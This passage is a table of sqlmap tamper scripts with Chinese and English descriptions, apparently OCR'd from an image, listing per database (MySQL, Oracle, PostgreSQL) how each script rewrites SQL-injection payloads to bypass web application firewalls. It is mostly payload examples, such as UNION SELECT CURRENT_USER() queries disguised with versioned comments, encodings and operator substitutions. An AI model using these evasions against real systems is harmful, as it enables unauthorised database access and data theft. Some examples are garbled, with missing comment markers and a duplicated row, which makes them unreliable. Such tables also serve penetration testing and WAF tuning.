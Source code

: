 | 11              | bluecoat.py                  | 代替空格字符后与一个有效的随机空白字符的SQL语句。 然后替换=为like | ('SELECT id FROM users where id = 1') 'SELECT%09id FROM users where id LIKE 1' |
| 12              | percentage.py                | asp允许每个字符前面添加一个%号                               | * Input: SELECT FIELD FROM TABLE * Output: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E |
| 13              | charencode.py                | url编码                                                      | * Input: SELECT FIELD FROM%20TABLE * Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45 |
| 14              | randomcase.py                | 随机大小写                                                   | * Input: INSERT * Output: InsERt                             |
| 15              | versionedkeywords.py         | Encloses each non-function keyword with versioned MySQL comment | * Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))# * Output: 1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS**!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))# |
| 16              | space2comment.py             | Replaces space character (‘ ‘) with comments ‘/**/’          | * Input: SELECT id FROM users * Output: SELECT//id//FROM/**/users |
| 17              | charunicodeencode.py         | 字符串 unicode 编码                                          | * Input: SELECT FIELD%20FROM TABLE * Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′ |
| 18              | versionedmorekeywords.py     | 注释绕过                                                     | * Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))# * Output: 1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS**!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))# |
| MySQL < 5.1     |                              |                                                              |                                                              |
| 19              | halfversionedmorekeywords.py | 关键字前加注释                                               | * Input: value’ UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND ‘QDWa’='QDWa * Output: value’/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND ‘QDWa’='QDWa |
| 20              | halfversionedmorekeywords.py | 当数据库为mysql时绕过防火墙，每个关键字之前添加 mysql版本评论 | 1.("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa") 2."value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa" |
| MySQL >= 5.1.13 |                              |                                                              |                                                              |
| 21              | space2morehash.py            | 空格替换为 #号 以及更多随机字符串 换行符                     | * Input: 1 AND 9227=9227 * Output: 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227 |
| Oracle          |                              |                                                              |                                                              |
| 1               | greatest.py                  | 绕过过滤’>’ ,用GREATEST替换大于号。                          | ('1 AND A > B') '1 AND GREATEST(A,B+1)=A'                    |
| 2               | apostrophenullencode.py      | 绕过过滤双引号，替换字符和双引号。                           | tamper("1 AND '1'='1")  '1 AND %00%271%00%27=%00%271'        |
| 3               | between.py                   | 用between替换大于号（>）                                     | ('1 AND A > B--') '1 AND A NOT BETWEEN 0 AND B--'            |
| 4               | charencode.py                | url编码                                                      | * Input: SELECT FIELD FROM%20TABLE * Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45 |
| 5               | randomcase.py                | 随机大小写                                                   | * Input: INSERT * Output: InsERt                             |
| 6               | charunicodeencode.py         | 字符串 unicode 编码                                          | * Input: SELECT FIELD%20FROM TABLE * Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′ |
| 7               | space2comment.py             | Replaces space character (‘ ‘) with comments ‘/**/’          | * Input: SELECT id FROM users * Output: SELECT//id//FROM/**/users |
| PostgreSQL      |                              |                                                              |                                                              |
| 1               | greatest.py                  | 绕过过滤’>’ ,用GREATEST替换大于号。                          | ('1 AND A > B') '1 AND GREATEST(A,B+1)=A'                    |
| 2               | apostrophenullencode.py      | 绕过过滤双引号，替换字符和双引号。                           | tamper("1 AND '1'='1")  '1 AND %00%271%00%27=%00%271'        |
| 3               | between.py                   | 用between替换大于号（>）                                     | ('1 AND A > B--') '1 AND A NOT BETWEEN 0 AND B--'            |
| 4               | percentage.py                | asp允许每个字符前面添加一个%号                               | * Input: SELECT FIELD FROM TABLE * Output: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E |